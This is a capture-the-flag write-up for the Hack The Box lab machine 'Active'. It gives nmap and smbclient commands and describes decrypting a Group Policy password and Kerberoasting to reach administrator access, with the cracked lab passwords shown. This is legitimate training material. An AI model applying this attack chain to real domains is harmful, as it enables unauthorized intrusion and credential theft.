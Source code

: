 ```yaml
---
title: Active
layout: post
author: Bit Criminals Team
date: 2021-08-02 14:30:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://app.hackthebox.eu/machine/Active
---
```


## STEP_1 ==> NMAP Scan

```bash
└─$ nmap -sV 10.10.10.100 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-02 14:41 IST
Nmap scan report for 10.10.10.100
Host is up (0.18s latency).
Not shown: 983 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-08-02 09:24:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.08 seconds
```

## STEP_2 ==> Enumeration

```bash
smbclient -L 10.10.10.100
```
![](HTB_Active/images/2.png)

  
## STEP_3 ==> Connect to the Replication

```bash
smbclient //10.10.10.100/Replication
```

We find that Groups.xml contains an encrypted password of username SVC_TGS.

![](HTB_Active/images/3.png) 


## STEP_4 ==> Cracking the encryption

The private key was released by Microsoft so it can be decrypted from the built in kali tool `/usr/bin/gpp-decrypt`

![](HTB_Active/images/pass_crack.png)

```Password-GPPstillStandingStrong2k18```


 ## STEP_5 ==> Getting User.txt

From above credential we login as user - SVC_TGS
```bash
smbclient //10.10.10.100/Users -U SVC_TGS
```

![](HTB_Active/images/user.png)


## STEP_6 ==> Privilege Escalation

In nmap scanning result we saw port 88 was open for Kerberos therfore some SPN is associated.

>https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py

![](HTB_Active/images/5.png)


## STEP_7 ==> Cracking the hash

![](HTB_Active/images/6.png)
```Password-Ticketmaster1968```

## STEP_8 ==> Login as administrator

```bash
smbclient //10.10.10.100/C$ -U active.htb\\administrator
```

![](HTB_Active/images/7.png)


## STEP_9 ==> root.txt

` /Users/Administrator/Desktop`
  
![](HTB_Active/images/8.png)

![](HTB_Active/images/root.png)
